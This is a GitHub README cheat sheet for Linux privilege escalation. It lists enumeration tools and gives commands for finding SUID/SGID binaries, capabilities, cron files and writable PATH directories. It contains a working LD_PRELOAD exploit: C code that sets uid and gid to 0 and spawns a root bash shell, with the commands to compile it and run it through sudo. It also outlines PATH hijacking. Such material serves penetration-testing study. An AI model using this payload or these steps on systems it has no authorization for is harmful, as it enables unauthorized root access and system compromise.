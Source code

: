 # Privilege-Escalation
Bypass security restrictions in misconfigured systems.
List of Tools and Repositories 👇🏻

## For Linux

**LinPeas** - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

**LinEnum** - https://github.com/rebootuser/LinEnum

**LES (Linux Exploit Suggester)** - https://github.com/mzet-/linux-exploit-suggester

**Linux Smart Enumeration** - https://github.com/diego-treitos/linux-smart-enumeration

**Linux Priv Checker** - https://github.com/linted/linuxprivchecker 

**GTFOBins** - https://gtfobins.github.io/ ⭐

**To list all the files which have SUID and SGID bits set**
```
find / -type f -perm -04000 -ls 2>/dev/null
```

**Using *LD_Preload***
> This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
> Compile it using GCC into a Shared Object file(.so)
```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
> Run it by using LD_Preload option  
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**Linux Privilege Escalation exploiting Sudo Rights — Part I** - https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d

**Abusing 'find', 'vim' and 'awk' for root access** - https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/

**Through Capabilities**
> List all enabled Capabilities
```
getcap -r / 2>/dev/null
```
> If you find any set capabilities then use GTFOBins and search your Binary name - https://gtfobins.github.io/#+capabilities

**Cron job configurations**
> Anyone can read the file cron jobs under 👇🏻
```
/etc/crontab
```
**Using $PATH**
> list the PATH by ``echo $PATH``

> find for writable path ``find / -writable 2>/dev/null`` or clean -> `` find / -writable 2>/dev/null | cut -d "/" -f2 | sort -u ``

> If able to modify the $PATH then ``export PATH=/DIR:$PATH`` (make sure to change the DIR)

now we have the required directory listed in out $PATH then we can just create a Script to exploit it 
For example 👉🏻 [path.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/path.c)
